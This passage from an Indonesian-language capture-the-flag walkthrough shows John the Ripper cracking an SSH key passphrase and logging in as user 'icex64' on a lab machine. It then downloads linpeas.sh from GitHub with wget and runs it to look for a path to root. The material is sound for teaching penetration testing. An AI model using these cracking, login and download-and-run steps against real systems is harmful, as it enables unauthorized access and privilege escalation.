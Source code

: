 Output:
```output
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
P@55w0rd!        (cert.key)  
```

Sekarang kita sudah mendapatkan passwordnya, mari kita loggin kembali.
```sh
ssh -i cert.key icex64@192.168.43.214
Enter passphrase for key 'cert.key': P@55w0rd!
```

![](Pasted%20image%2020220323182204.png)

Kita berhasi masuk ke user "icex64". Sekarang tinggal menjadi user root.

Disini kita akan mendownload "linpeas.sh" untuk melihat *vulnerability* pada mesin ini.
```sh
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220320/linpeas.sh
```

```sh
chmod 777 linpeas.sh
./linpeas.sh
```

